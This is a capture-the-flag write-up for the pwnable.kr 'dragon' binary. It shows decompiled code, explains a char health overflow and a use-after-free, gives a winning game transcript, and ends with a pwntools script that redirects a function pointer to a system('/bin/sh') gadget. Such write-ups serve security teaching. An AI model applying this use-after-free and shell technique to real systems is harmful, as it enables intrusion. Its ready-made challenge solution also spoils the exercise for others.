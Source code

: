 
There is a lot going on in the `dragon` binary so I won't be diving deeply into each and every function.
You can check the [call graph visualization](#call_graph) for a general overview of the control flow.
Briefly, `main` unbuffers the iostreams and calls `PlayGame` whereas
`PlayGame` acts as the Main Menu. Things get interesting when we get to `FightDragon`.
The following code is a tweaked version of Ghidra's decompilation output:

```c
struct Dragon {
    void (*info_function)(struct Dragon*);
    int type;
    char health;
    char regeneration;
    int damage;
};

struct Player {
    int type;
    int health;
    int mana;
    void (*info_function)(struct Player*)
}

void FightDragon(int player_type)

{
    Player *player;
    Dragon *dragon;
    char *name;
    int is_win;

    player = (Player *)malloc(0x10);
    dragon = (Dragon *)malloc(0x10);
    if ((Count & 1) == 0) {
        Count = Count + 1;
        dragon->type = 0;
        dragon->health = 0x32;
        dragon->regeneration = 5;
        dragon->damage = 0x1e;
        dragon->info_function = PrintMonsterInfo;
        puts("Baby Dragon Has Appeared!");
    }
    else {
        Count = Count + 1;
        dragon->type = 1;
        dragon->health = 0x50;
        dragon->regeneration = 4;
        dragon->damage = 10;
        dragon->info_function = PrintMonsterInfo;
        puts("Mama Dragon Has Appeared!");
    }
    if (player_type == 1) {
        player->type = 1;
        player->health = 0x2a;
        player->mana = 0x32;
        player->info_function = PrintPlayerInfo;
        is_win = PriestAttack(player,dragon);
    }
    else {
        if (player_type != 2) {
            return;
        }
        player->type = 2;
        player->health = 0x32;
        player->mana = 0;
        player->info_function = PrintPlayerInfo;
        is_win = KnightAttack(player,dragon);
    }
    if (is_win == 0) {
        puts("\nYou Have Been Defeated!");
    }
    else {
        puts("Well Done Hero! You Killed The Dragon!");
        puts("The World Will Remember You As:");
        name = (char *)malloc(0x10);
        __isoc99_scanf(&DAT_08049108,name);
        puts("And The Dragon You Have Defeated Was Called:");
        (*(code *)dragon->info_function)(dragon);
    }
    free(player);
    return;
}
```

`FightDragon` sets up the dragon and the player for the game
after which it starts the game (calling either `KnightAttack` or `PriestAttack`)
Now `KnightAttack` and `PriestAttack` do pretty much what you see
when you play the game from the terminal. There are no logical bugs in them but
what's crucial to note is that upon return they free the dragon variable.

But... look at the win branch of the `FightDragon` function(last `else` block).
It calls `dragon->info_function` even though `dragon` is at that time a dangling pointer.
You might think that this would segfault but there is actually a convenient `malloc`
2 lines before which ends up allocating the same memory block that the dragon occupied
(so `name == dragon` would evaluate to `true`).
Hmm... so the ` (*(code *)dragon->info_function)(dragon); ` would actually be a call to whatever
we write in `name`, Good, then we could write an arbitrary address redirecting code execution to it.
If we could just figure out how to win in the first place...

At first glance It might seem impossible, no matter the dragon, no matter the hero you choose
you will always end up dying before the dragon. But there is another way of winning.
What might have struck you as odd in the above decompilation is that the dragon health
is stored in a char variable. That means that the dragon health can be in the range `[-128, 127]`.
We saw that trying to reduce the dragon health is futile but what if we increased it so much
that we overflowed it? I reckon the only way to do this is by using the `Priest` against
`Mama Dragon`. The idea is to let `Mama Dragon` regenerate until her health overflows:

<details>
<summary style="font-size: 1.2em;">
Expand to see how to win
</summary>

```
❮ nc pwnable.kr 9004
Welcome to Dragon Hunter!
Choose Your Hero
[ 1 ] Priest
[ 2 ] Knight
1
Baby Dragon Has Appeared!
[ Baby Dragon ] 50 HP / 30 Damage / +5 Life Regeneration.
[ Priest ] 42 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 30 Damage To You!
And The Dragon Heals 5 HP!
[ Baby Dragon ] 55 HP / 30 Damage / +5 Life Regeneration.
[ Priest ] 12 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 30 Damage To You!
And The Dragon Heals 5 HP!

You Have Been Defeated!
Choose Your Hero
[ 1 ] Priest
[ 2 ] Knight
1
Mama Dragon Has Appeared!
[ Mama Dragon ] 80 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 42 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 84 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 42 HP / 25 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 88 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 42 HP / 0 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 10 Damage To You!
And The Dragon Heals 4 HP!
[ Mama Dragon ] 92 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 32 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 96 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 32 HP / 25 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 100 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 32 HP / 0 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 10 Damage To You!
And The Dragon Heals 4 HP!
[ Mama Dragon ] 104 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 22 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 108 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 22 HP / 25 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 112 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 22 HP / 0 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 10 Damage To You!
And The Dragon Heals 4 HP!
[ Mama Dragon ] 116 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 12 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 120 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 12 HP / 25 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 124 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 12 HP / 0 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 10 Damage To You!
And The Dragon Heals 4 HP!
Well Done Hero! You Killed The Dragon!
The World Will Remember You As:
```
</details>

Nice! We won. What's left is to pass to `name` the address we want to jump to.
There is a convenient `system("/bin/sh")` gadget at address `0x08048dbf` in `SecretLevel()` function
(called from `PlayGame()` when player inputs 3) so let's jump to it.

Here is the final exploit:
```python
from pwn import *

proc = remote("pwnable.kr", port=9004)

# Lose on purpose against Baby Dragon.
proc.sendline(b'1')
proc.sendline(b'2')
proc.sendline(b'2')

# Win against Mama Dragon.
proc.sendline(b'1')

for i in range(4):
    proc.sendline(b'3')
    proc.sendline(b'3')
    proc.sendline(b'2')

proc.sendline(p32(0x08048dbf))
proc.interactive()
proc.close()
```

<details id="call_graph">
<summary style="font-size: 1.2em;">
Call graph visualization
</summary>

![dragon_main](visuals/dragon_main.png)
</details>
